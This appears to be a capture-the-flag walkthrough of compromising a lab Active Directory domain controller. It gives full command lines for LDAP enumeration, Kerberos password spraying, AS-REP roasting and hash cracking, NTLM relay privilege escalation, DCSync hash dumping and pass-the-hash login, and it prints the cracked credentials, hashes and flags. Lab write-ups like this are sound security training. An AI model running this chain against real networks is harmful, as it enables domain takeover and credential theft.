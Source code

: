 
Initial scan with nmap came out with several results
Command:
```
nmap -sV -Pn -T4 10.10.10.161 -p-
```
Found a ldap service opened on port 389 and decided to to use the command:
```
ldapsearch -H ldap://10.10.10.161 -x -s base '' "(objectClass=*)" "*" +
```
Next we check for a null-bund on the LDAP.

```
ldapsearch -H ldap://10.10.10.161 -x -b DC=htb,DC=local
```
For user enumeration I use the commands:
```
ldapsearch -H ldap://10.10.10.161 -x -b DC=htb,DC=local "(objectClass=person)" | grep "sAMAccountName:"

enum4linux -v 10.10.10.161
```
With this search I was able to find a user svc-alfresco. 
After this we did a kerberos password spray attack with the kerbrute tool.

```
 ./kerbrute passwordspray -d htb.local --dc 10.10.10.161 user.txt 'password123' -v
```
With this attack we were able to find out that the user svc-alfresco did not need pre authentication
After the spray we did a AS-REP Roasting attack on the machine with the GetNPUsers script

```
./GetNPUsers.py htb.local/svc-alfresco -no-pass -dc-ip 10.10.10.161
```
This command gave us a hash which we then used John to crack.

```
john --wordlist=~/rockyou.txt alf.hash
```
We got the password for svc-alfresco:s3rvice.
After gaining the password we used the binary 
Evil-WinRM:
```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```
With that we gained initial access and found the user flag on the desktop

user flag: 3d6a7c6a450f8c07b30261ca85b42ca0

Privledge Escalation:

We know that Account Operators can add new users so we will attempt to add a new user:

```
net user bigb0ss bigb0ss /add /domain

net group "Exchange Trusted Subsystem" bigb0ss /add /domain
```
we use ntlmrelayx.py to set up a mitm and catch an attempt to login with the new user

```
python3 ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user bigb0ss
```

Then we do a random auth with the account on our local machine which failes on our machine but successfully escalates privledges on the victims machine.
```
python3 psexec.py htb.local/bigb0ss:bigb0ss@10.10.16.7
```
we then use DCSync to dump the hashes with another tool called secretsdump.py 
```
python3 secretsdump.py htb.local/bigb0ss:bigb0ss@10.10.10.161 -just-dc-user administrator
```
Finally we gain root access using PSexec
```
psexec.py htb.local/administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
root flag: 1345e723085e50f3605e575ad4f41fbe

system has been rooted action is no longer required.
